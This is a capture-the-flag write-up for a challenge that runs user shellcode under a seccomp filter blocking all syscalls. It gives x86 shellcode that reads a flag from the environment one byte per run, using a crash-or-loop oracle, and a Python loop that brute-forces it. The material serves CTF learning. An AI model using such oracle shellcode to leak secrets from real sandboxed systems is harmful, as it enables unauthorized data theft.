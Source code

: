 # Saving the environment
## Challenge description
The flag is stored as an environment variable. The challenge at start print all the environment variable except for the flag that is replaced with `FLAG=... Lets not print this one...`. It also mmap a fixed memory region rwx. Then the challenge take a shellcode as input and put it in the rwx region. Before executing the shellcode it sets a seccomp rule which disallow every syscall.

## Get the flag
Before jumping to the shellcode the challenge set to 0 every register except for rbp and rsp. Luckly the environment variable are stored in the stack (as the variable envp). The problem is that to print the flag we need to use syscalls. To get the flag we can set up an oracle which allows us to bruteforce the flag one byte at a time. The challenge comes with a wrapper which notice us when the program crush so it's easy for us to detect a crush. To do that I used the following shellcode:
```x86asm
mov rbx, QWORD PTR [rbp - {ENVP_OFFSET}]
mov rax, rbx
add rax, {FLAG_ENV_OFFSET}
mov rdi, QWORD PTR [rax]
add rdi, 5
mov dl, BYTE PTR [rdi + {index}]
cmp dl, {ord(character)}
je loop
mov rax, 0x0
mov rax, QWORD PTR [rax]
loop:
mov rcx, 0x500000
jmp loop
```
where index is the position of the character we are bruteforcing in the flag, while characheter is the character we are trying and ENVP_OFFSET is the offset of envp from rbp. If we found the character the program will loop and it will not terminate, while if we got it wrong the program will crush trying to deferenciate 0x0. We can iterate it checking each time if the process got killed
```py
while True:
    ...
    res = p.recvuntil(b"Killed... What did you do??", timeout=TIMEOUT)
    if not (b"Killed" in res):
        flag = guess
        break
    p.close()
```